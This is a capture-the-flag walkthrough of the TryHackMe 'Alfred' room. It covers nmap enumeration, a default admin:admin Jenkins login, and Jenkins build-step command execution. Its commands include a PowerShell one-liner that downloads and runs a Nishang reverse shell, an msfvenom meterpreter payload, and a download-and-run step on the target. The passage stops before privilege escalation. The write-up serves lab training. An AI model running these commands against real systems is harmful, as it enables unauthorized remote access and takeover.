 
Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

[Alfred](https://tryhackme.com/room/alfred)

---

We will be exploiting this box today. According to the brief overview this is a windows application and it is recommended that we use the [Nishang](https://github.com/samratashok/nishang) project to gain initial access. Also they specified that we use this [specific script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Initial Access
## How many ports are open? (TCP only)

### Enumeration

#### nmap

```bash
┌──(root㉿kali)-[/home/z3tssu]
└─# nmap -v 10.10.34.156 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-12 07:56 +04
Initiating Parallel DNS resolution of 1 host. at 07:56
Completed Parallel DNS resolution of 1 host. at 07:56, 0.11s elapsed
Initiating SYN Stealth Scan at 07:56
Scanning 10.10.34.156 [1000 ports]
Discovered open port 80/tcp on 10.10.34.156
Discovered open port 8080/tcp on 10.10.34.156
Discovered open port 3389/tcp on 10.10.34.156
Completed SYN Stealth Scan at 07:56, 17.19s elapsed (1000 total ports)
Nmap scan report for 10.10.34.156
Host is up (0.25s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

There are 3 open ports from the Nmap scan above. Lets explore the webservers on port 80 and port 8080.

## What is the username and password for the login panel?

### Webserver Enumeration

Viewing the webserver on port 80:
![[Pasted image 20251013214110.png]]

Viewing the webserver on port 8080:
![[Pasted image 20251013214126.png]]
So there are two webservers, one is a website hosted claiming that Bruce Wayne is dead and there is an address specified:

```bash
alfred@wayneenterprises.com
```

The other one seems to be access to the Jenkins platform with a username and password field.

### Default Credentials
1. Lets try using admin:admin on the webserver login
2. It WORKED
![[Pasted image 20251013214248.png]]

## What is the User.txt flag?

We get a hint of how to continue exploiting this room

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server
### Finding the feature that allows for code execution
1. Navigate to the following: http://10.10.206.196:8080/job/project/configure
![[Pasted image 20251013215624.png]]

2. Once we put the code in side the code block we go back to the page and press "Build Now"
![[Pasted image 20251013215723.png]]
### Download the Nishang Script 
1. Run the following
```shell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
2. Start our webserver on out attacker machine with the following
```bash
python -m http.server 8000
```

### Exploit the command injection vulnerability
We can now exploit the command injection vulnerability in the vulnerable part of the application to get a reverse shell by the command below

```shell
powershell iex (New-Object  Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress your-ip -Port your-port
```

replace http://your-ip:your-port/Invoke-PowerShellTcp.ps1 with the address obtained from your updog webserver
```
powershell iex (New-Object  Net.WebClient).DownloadString('http://10.9.0.78:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress 10.9.0.78 -Port 4444
```

Copy the above command to the configure section as discussed above and when done, apply and save it, then press the build now button and now we should have a netcat shell activated back on our attacker machine

![[Pasted image 20251013220253.png]]

lets find the user.txt file now

Use the following to quickly find a text file using powershell query
```shell
Get-ChildItem -Path C:\ -Filter "user.txt" -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20251013220613.png]]
### Read the file once found

```powershell
Get-Content C:\Users\bill\Desktop\user.txt
# or
type C:\Users\bill\Desktop\user.txt
```
![[Pasted image 20251013220646.png]]

# Switching Shells

Time to upgrade our shells from a simple netcat shell to a meterpreter shell
## Generate the MSFVenom Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.0.78 LPORT=9090 -f exe -o shell_main.exe
```
## Download the payload on the webserver 
1. We already have our python server running
2. Lets download it from our attacker machine onto the webserver using the below command

```shell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.0.75:8000/shell_main.exe','shell_main_.exe')"
```

![[Pasted image 20251013221421.png]]

## Setup a Meterpreter Listener 
```
msfconsole -q -x "use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.9.0.78 set 9090 listening-port run"
```
![[Pasted image 20251013222045.png]]

## Execute the payload on the webserver
use the following command in the shell code on the webserver
```
Start-Process "shell_main.exe"
```

```
Get-ChildItem -Path C:\ -Filter "shell_main.exe" -Recurse -ErrorAction SilentlyContinue
```

